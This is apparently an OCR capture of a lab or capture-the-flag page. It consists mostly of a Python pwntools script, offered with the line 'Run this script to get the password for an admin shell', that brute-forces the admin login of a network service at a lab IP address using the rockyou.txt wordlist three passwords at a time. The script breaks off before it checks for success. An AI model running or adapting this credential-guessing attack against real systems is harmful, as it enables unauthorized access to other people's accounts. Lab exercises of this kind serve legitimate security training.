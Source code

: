 Run this script to get the password for an admin shell:
```python
#!/usr/bin/env python3
from pwn import *
from itertools import islice
import time
import sys

context.log_level = "info"

host = "10.10.167.123"
port = 8000
password_file = "/usr/share/wordlists/rockyou.txt"

def connect_to_service():
    return remote(host, port, timeout=5)

def batches(fileobj, n=3):
    while True:
        batch = list(islice(fileobj, n))
        if not batch:
            break
        yield [w.rstrip("\n") for w in batch]

def collect_response(conn, timeout=2.0, chunk_timeout=0.25):
    end = time.time() + timeout
    collected = b""
    while time.time() < end:
        try:
            part = conn.recv(timeout=chunk_timeout)
        except EOFError:
            raise
        except Exception:
            part = b""
        if part:
            collected += part
            continue
    return collected

def attempt_batch(batch, batch_num):
    try:
        conn = connect_to_service()
    except Exception as e:
        print(f"[!] Connection error: {e}")
        return False

    try:
        conn.sendline(b"admin")
        try:
            conn.recvuntil(b"Password:", timeout=3)
        except Exception:
            conn.close()
            return False

        for pw in batch:
            print(f"[{batch_num}] trying: {pw}")
            conn.sendline(pw.encode())

            try:
                resp = collect_response(conn, timeout=2.0)
            except EOFError:
                conn.close()
                return False

```